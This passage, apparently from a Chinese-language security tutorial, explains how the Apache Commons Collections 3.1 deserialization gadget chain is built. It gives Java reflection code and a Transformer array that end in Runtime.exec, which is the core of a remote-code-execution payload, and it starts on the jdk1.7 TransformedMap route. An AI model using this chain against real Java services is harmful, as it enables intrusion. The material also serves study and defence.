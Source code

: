 通过pop链，将exp的框架构造出来了，exp的核心就是构造transforms数组，进行反射调用。我们的最终目的就是执行`Runtime.getRuntime().exec()`，但是java是一门静态语言，需要利用反射去赋予它一些动态的特性。

```java
Class<?> runtimeClass = Class.forName("java.lang.Runtime"); //一切皆对象，类也是一个对象

Method getRuntime = runtimeClass.getMethod("getRuntime", null); //获取getRuntime方法
Runtime runtimeObj = (Runtime) getRuntime.invoke(null, null); //调用getRuntime方法获取Runtime类的实例化对象
runtimeObj.exec("touch /tmp/success"); //调用exec方法
```

接下来根据反射构造transforms：

首先我们需要获取Runtime对应的类，这里我们使用：

`commons-collections-3.1.jar!/org/apache/commons/collections/functors/ConstantTransformer.class`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190814233339.png)

这个类的`transform`方法会将传入的对象原样返回：

```java
Transformer[] transformers = new Transformer[] {
		new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
      	"getMethod",
        new Class[]{String.class, Class[].class}, //getMethod方法的参数的类型
        new Object[]{"getRuntime", null} //调用getMethod方法时要传的参数
    ), //返回java.lang.Runtime.getRuntime()
    new InvokerTransformer(
        "invoke",
        new Class[]{Object.class, Object[].class},
        new Object[]{null, null}
    ), //返回一个Runtime对象
    new InvokerTransformer(
        "exec",
        new Class[]{String.class},
        new String[]{command} //转化为字符串数组
    )
};
```

> 也有同学可能看过ysoserial构造的Payload，它的习惯是先定义一个包含『无效』`Transformer`的`ChainedTransformer`，等所有对象装填完毕之后再利用反射将实际的数组放进去。这么做的原因作者也在一个Issue中给了解释，我们直接看原文：
>
> > Generally any reflection at the end of gadget-chain set up is done to "arm" the chain because constructing it while armed can result in premature "detonation" during set-up and cause it to be inert when serialized and deserialized by the target application.

#### jdk1.7

1.7的不说一下似乎也不太合适～

`commons-collections-3.1.jar!/org/apache/commons/collections/map/TransformedMap.class`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190925174249.png)
